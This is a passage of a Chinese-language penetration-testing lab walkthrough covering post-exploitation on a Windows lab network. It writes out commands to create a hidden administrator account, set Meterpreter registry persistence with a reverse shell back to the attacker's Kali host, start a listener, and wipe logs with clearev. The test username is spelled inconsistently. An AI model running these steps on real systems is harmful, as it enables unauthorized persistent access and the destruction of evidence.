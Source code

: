 ![开启3389端口](https://upload-images.jianshu.io/upload_images/7216746-7df8730b339086ed.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-17e8924991433b5f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

5. 创建管理员用户Waldo6TEST

`net user Waldo2008 1234567hhhh. /add`

`net localgroup administrators Waldo2008 /add`

![添加用户Waldo2008](https://upload-images.jianshu.io/upload_images/7216746-19585f7491aa71cf.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![ Waldo2008拥有管理员权限](https://upload-images.jianshu.io/upload_images/7216746-ad18201950d51119.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

###  Windows 7中远程登录Win server 2008
1. 在Windows 7 使用用户名Wado2008T 密码1234567hhhh.成功登陆Win server 2008

![](https://upload-images.jianshu.io/upload_images/7216746-ebddf88b162eb18b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 权限维持(Kali到Windows7)

`run persistence -X -i 5 -p 1121 -r 192.168.114.130`，这里在Meterpreter会话中运行persistence后渗透攻击模块，在目标主机的注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`添加下图中倒数第一个[*]，达到自启动的目的，-X参数指定启动的方式为开机自启动，-i参数指定反向连接的时间间隔
![](https://upload-images.jianshu.io/upload_images/7216746-40604e1f22a600da.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


然后建立Meterpreter的客户端，在指定回来的1121端口进行监听，待Windows 7(192.168.114.138)，等待后门重新连接，具体操作命令如下:

```
msfconsole 
use exploit/multi/handler
set PAYLOAD Windows/meterpreter/reverse_tcp
set LHOST 192.168.114.130
set lport 1121
run
```
![](https://upload-images.jianshu.io/upload_images/7216746-c416a86b4fd92520.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 痕迹清除
## 使用清除远程连接历史记录的BAT脚本

![](https://upload-images.jianshu.io/upload_images/7216746-e9fd82cc946bf77a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-29fec4dae0e72b64.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-942e70f35de41fac.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

##  clearev命令
